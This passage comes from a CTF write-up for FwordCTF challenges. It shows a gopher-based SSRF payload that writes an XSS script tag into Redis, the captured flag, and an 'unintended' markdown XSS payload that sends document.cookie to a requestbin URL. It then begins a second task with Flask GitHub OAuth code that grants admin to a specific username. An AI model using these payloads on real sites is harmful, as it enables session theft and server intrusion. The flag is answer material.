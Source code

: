 Now we only have to set that key to our XSS payload :

> gopher://redis:6379/_SET%20yLAP6wFwIy%3Ajutsu5598%20%27s%3A81%3A%22%3Cscript%20src%3D%22URL%22%3E%3C%2Fscript%3E%22%3B%27

And Bingo you will get the flag :

**FwordCTF{Y0u_Only_h4vE_T0_cH4in_4nd_Th1nk_w3ll}**

There was an unintended solution that exploited a problem in the markdown parser (I contacted the developer to resolve this issue)

``` ![<img src="#" onerror="src='http://requestbin.net/r/12bfihl1?c='+document.cookie; this.onerror=null"/>](#){onerror=outerHTML=alt} ```

## Useless(3 solves) 500pts ##

![TASK](https://imgur.com/r0HTsK7.png)

In this task we were given a flask project, when we open the website we can notice in the login page the possibility to login using github.After creating an account and signing in we don't see anything special.

![TASK](https://imgur.com/O60WJr5.png)

Let's get a look on the source code, after some digging, this part seems interesting, it's the logic handling the Github Oauth.

```python
@oauth_authorized.connect_via(github_authbp)
def github_oauth(github_authbp,token):
    if not github.authorized:
        return redirect(url_for("github.login"))
    resp = github.get("/user")
    if not resp.ok:
        return redirect(url_for("github.login"))
    info=resp.json()
    auth=oauth.OAuth.query.filter_by(provider_user_id=info["id"]).first()
    if auth is None:
        auth = oauth.OAuth(provider="github", provider_user_id=info["id"], token=token)
        if auth.user:
            login_user(auth.user)
            return redirect("/home",302)
        else:
            if not validate_username(info["login"]):
                return redirect("/register")
            if info["login"]=="fwordadmin":
                user = users.User(username=info["login"], email=info["email"],is_admin=True)
            else:
                user=users.User(username=info["login"],email=info["email"])
            auth.user=user
            base.db_session.add_all([user,auth])
            base.db_session.commit()
            login_user(user)
            return redirect("/home",302)
    else:
        login_user(auth.user)
        return redirect("/home", 302)

```
